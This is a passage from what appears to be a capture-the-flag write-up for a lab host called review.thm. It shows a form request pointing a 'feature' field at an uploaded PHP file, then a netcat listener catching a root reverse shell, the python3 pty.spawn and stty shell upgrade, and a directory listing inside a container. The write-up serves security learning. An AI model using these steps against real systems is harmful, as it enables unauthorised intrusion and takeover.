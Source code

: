 ```bash
Referer: http://review.thm/dashboard.php
Cookie: PHPSESSID=*************************
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------294878893521255911952443389194
Content-Disposition: form-data; name="feature"

uploads/r.php
-----------------------------294878893521255911952443389194--

```

<p align="center"><em>Response</em></p>

```bash
:~/Sequence# nc -nlvp 1234
...
# whoami
root
# which python3
/usr/bin/python3
# python3 -c 'import pty;pty.spawn("/bin/bash")'
:/# ^Z
[1]+  Stopped                 nc -nlvp 1234
:~/Sequence# stty raw -echo; fg
nc -nlvp 1234

root@4f18a45cca05:/# export TERM=xterm
...
root@4f18a45cca05:/# ls -lah
total 60K
drwxr-xr-x   1 root root 4.0K Jun  4 15:46 .
drwxr-xr-x   1 root root 4.0K Jun  4 15:46 ..
-rwxr-xr-x   1 root root    0 Jun  4 15:46 .dockerenv
lrwxrwxrwx   1 root root    7 May 20 00:00 bin -> usr/bin
drwxr-xr-x   2 root root 4.0K May  9 14:50 boot
drwxr-xr-x   5 root root  340 Sep 26 xx:xx dev
drwxr-xr-x   1 root root 4.0K Jun  4 15:46 etc
drwxr-xr-x   2 root root 4.0K May  9 14:50 home
lrwxrwxrwx   1 root root    7 May 20 00:00 lib -> usr/lib
lrwxrwxrwx   1 root root    9 May 20 00:00 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4.0K May 20 00:00 media
drwxr-xr-x   2 root root 4.0K May 20 00:00 mnt
drwxr-xr-x   2 root root 4.0K May 20 00:00 opt
dr-xr-xr-x 198 root root    0 Sep 26 17:28 proc
drwx------   1 root root 4.0K Jun  4 15:44 root
drwxr-xr-x   1 root root 4.0K Jun  4 15:46 run
lrwxrwxrwx   1 root root    8 May 20 00:00 sbin -> usr/sbin
drwxr-xr-x   2 root root 4.0K May 20 00:00 srv
dr-xr-xr-x  13 root root    0 Sep 26 xx:xx sys
drwxrwxrwt   1 root root 4.0K Sep 26 xx:xx tmp
drwxr-xr-x   1 root root 4.0K May 20 00:00 usr
drwxr-xr-x   1 root root 4.0K May 21 23:17 var
```

